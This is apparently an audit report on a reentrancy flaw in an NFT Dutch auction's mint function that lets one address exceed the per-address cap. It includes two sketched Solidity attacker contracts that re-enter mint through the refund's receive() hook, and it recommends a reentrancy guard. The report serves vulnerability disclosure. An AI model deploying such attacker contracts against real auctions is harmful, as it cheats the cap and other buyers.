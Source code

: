 0xtotem

high

# [HIGH] A user can end up holding more than the cap per address at the end of one transaction

## Summary

Since the `mint` function allow reentrancy, it is possible to send more ether while minting with a contract to trigger a refund. The contract can then mint during the `receive` and send it to the original minter.
Note that this can be cascaded with more contract calls within `receive`.

https://github.com/sherlock-audit/2023-07-beam-auction/blob/main/dutch-nft/src/MeritDutchAuction.sol#L161-L165

## Vulnerability Detail

## Impact

On address can hold more than `CAP_PER_ADDRESS` which doesn't reflects the state of the `mintedPerAddress` after on transaction.

## Code Snippet

It is possible to exploit it with two simple contracts:

```solidity
contract FirstAttacker is IERC721Receiver {
   // ...
   function attack() {
        uint priceForCap = nft.getPrice() * nft.CAP_PER_ADDRESS();
        nft.mint{value: priceForCap + 1}(nft.CAP_PER_ADDRESS());
   }
    receive() external payable {
        extraMint.mint();
    }
}

contract ExtraMint is IERC721Receiver {
   // ...
   function mint() {
        uint capPerAddress = nft.CAP_PER_ADDRESS();
        uint priceForCap = nft.getPrice() * capPerAddress;

        uint currentTokenId = nft.minted();
        nft.mint{value: priceForCap}(capPerAddress);

        for (uint i=0; i < capPerAddress ; i++) {
            nft.safeTransferFrom(address(this), firstAttacker, currentTokenId + i);
        }
        
   }
}
```


## Tool used

Manual Review

## Recommendation

Adding a [reentrancy guard](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard) to the mint function.
